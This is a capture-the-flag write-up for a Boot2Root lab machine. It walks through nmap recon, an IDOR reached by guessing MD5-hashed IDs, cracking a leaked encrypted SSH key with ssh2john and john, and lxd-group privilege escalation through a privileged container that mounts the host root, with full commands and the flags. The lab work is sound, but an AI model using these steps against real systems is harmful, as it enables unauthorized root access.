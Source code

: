 ## BattleX CTF: machine1
#### Category: Boot2Root
#### Score: 60
#### Number of Solves: 3 
### Description

> You know what to do

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-30 02:39 WAT
Nmap scan report for 10.10.146.166
Host is up (0.50s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proverb Categories
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.67 seconds
```

### TL; DR

Exploit IDOR in a web app and get access to sensitive information, in this case, a SSH private key, encrypted with a weak password. Using that as access and exploiting lxd group got root access on this machine
    
### Solution Steps

![Imgur](https://i.imgur.com/4Z78fz0.png)

_Web server on port 80_

On checking the links in the proverb categories, they looked strange and similarly structured.

![Imgur](https://i.imgur.com/dEeLuF0.png)

They resemble an MD5 encoded text so I proceeded to use crackstation to try and reverse the text.

![Imgur](https://i.imgur.com/SOjlcBY.png)

My guess was right and it should be possible for me to generate my own MD5 and exploit an IDOR (Insecure Direct Object References) vulnerability. I generated several numbers in MD5 and tried to see if it existed, until `0`.

![Imgur](https://i.imgur.com/ERvoHX2.png)

It contained both public ssh and an encrypted private ssh key. The public key showed who owns them, `jayhunts`. I copied the private key to a file for cracking, using ssh2john and john.

![Imgur](https://i.imgur.com/akAJNrQ.png)

_Password found_

Now that the password has been found, login via ssh shouldn't be an issue. 

![Imgur](https://i.imgur.com/XjqnC6R.png)

_Login success_

```
jayhunts@BattleX:~$ cat user.txt
BattleX{e99a18c428cb38d5f260853678922e03}
jayhunts@BattleX:~$
```

User flag: `BattleX{e99a18c428cb38d5f260853678922e03}`
BattleX{e99a18c428cb38d5f260853678922e03}

### Privilege escalation

```
jayhunts@BattleX:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[snip]
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jayhunts:x:1000:1000:,,,:/home/jayhunts:/bin/bash
jayhunts@BattleX:~$ id
uid=1000(jayhunts) gid=1000(jayhunts) groups=1000(jayhunts),108(lxd)
```

After checking for users in `/etc/passwd` file, I ran id and saw that jayhunts is in the `lxd` group. This can be taken advantage of to get root access on this machine. 

I ran this on my pc to start the privilege escalation proceedure

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

It soon created a `alpine-v3.13-x86_64-20210218_0139.tar.gz` in the folder. Next I snuck the image to the machine with my simple http server, using wget.

```
wget http://MY_IP:8080/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

```
jayhunts@BattleX:~$ lxc image import import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:18.04

Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a

jayhunts@BattleX:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]:
Name of the new storage pool [default=default]:
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]:
Create a new BTRFS pool? (yes/no) [default=yes]:
Would you like to use an existing block device? (yes/no) [default=no]:
Size in GB of the new loop device (1GB minimum) [default=15GB]:
Would you like to connect to a MAAS server? (yes/no) [default=no]:
Would you like to create a new local network bridge? (yes/no) [default=yes]:
What should the new bridge be called? [default=lxdbr0]:
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
Would you like LXD to be available over the network? (yes/no) [default=no]:
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:

jayhunts@BattleX:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer

jayhunts@BattleX:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer

jayhunts@BattleX:~$ lxc start mycontainer
jayhunts@BattleX:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jun 30, 2024 at 11:04am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
jayhunts@BattleX:~$ lxc exec mycontainer /bin/sh
~ # whoami
root
~ # pwd
/root
~ # ls
~ # cd /mnt/root
/mnt/root # ls
bin             etc             lib             mnt             run             swap.img        var
boot            home            lib64           opt             sbin            sys             vmlinuz
cdrom           initrd.img      lost+found      proc            snap            tmp             vmlinuz.old
dev             initrd.img.old  media           root            srv             usr
/mnt/root # cd root
/mnt/root/root # ls -lah
total 36K
drwx------    6 root     root        4.0K Jun 21 15:43 .
drwxr-xr-x   24 root     root        4.0K Jun 14 20:01 ..
lrwxrwxrwx    1 root     root           9 Jun 15 04:14 .bash_history -> /dev/null
-rw-r--r--    1 root     root        3.0K Jun 21 15:41 .bashrc
drwx------    2 root     root        4.0K Jun 16 00:46 .cache
drwx------    3 root     root        4.0K Jun 16 00:46 .gnupg
drwxr-xr-x    3 root     root        4.0K Jun 14 21:21 .local
-rw-r--r--    1 root     root         148 Aug 17  2015 .profile
drwx------    2 root     root        4.0K Jun 14 20:51 .ssh
-rw-------    1 root     root          42 Jun 21 15:43 root.txt
/mnt/root/root # cat root.txt
BattleX{c4ca4238a0b923820dcc509a6f75849b}
```

Thats all for machine1

Root flag: `BattleX{c4ca4238a0b923820dcc509a6f75849b}`

### Conclusion


### References

1. [Hacktricks lxd privilege escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
